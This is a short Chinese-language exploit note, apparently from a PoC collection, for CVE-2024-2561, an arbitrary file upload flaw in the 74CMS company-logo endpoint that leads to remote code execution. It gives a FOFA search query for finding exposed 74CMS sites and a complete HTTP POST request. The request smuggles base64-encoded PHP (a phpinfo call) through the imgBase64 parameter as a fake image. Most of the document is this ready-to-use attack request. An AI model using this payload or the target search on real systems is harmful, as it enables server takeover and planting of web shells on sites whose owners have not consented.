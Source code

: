 # 74CMS存在任意文件上传漏洞(CVE-2024-2561)

74CMS存在任意文件上传漏洞(CVE-2024-2561)，漏洞地址存在与sendCompanyLogo文件中/controller/company/Index.php#sendCompanyLogo的组件Company Logo Handler。经修改后的参数:imgBase64恶意代码输入可导致rce。

## fofa

```javascript
app="骑士-74CMS"
```

## poc

```javascript
POST /v1_0/company/index/sendCompanyLogo HTTP/1.1
Host: localhost:7888
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
user-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MDk4MTY4MDcsImV4cCI6MTc0MTAyODgwNywiaW5mbyI6eyJ1aWQiOjEsInV0eXBlIjoxLCJtb2JpbGUiOiIxNTIxMjM0NTY3OCJ9fQ.8MYJ6e8qOGCR6s3pTIlFLsWFgAhC4f-F8XH_VNaC5BQ
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: qscms_visitor=%7B%22utype%22%3A1%2C%22mobile%22%3A%2215212345678%22%2C%22token%22%3A%22eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MDk4MTY4MDcsImV4cCI6MTc0MTAyODgwNywiaW5mbyI6eyJ1aWQiOjEsInV0eXBlIjoxLCJtb2JpbGUiOiIxNTIxMjM0NTY3OCJ9fQ.8MYJ6e8qOGCR6s3pTIlFLsWFgAhC4f-F8XH_VNaC5BQ%22%7D
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

imgBase64=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==
```

![image-20250206164242391](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502061642460.png)



## 漏洞来源

- https://gist.github.com/Southseast/9f5284d8ee0f6d91e72eef73b285512a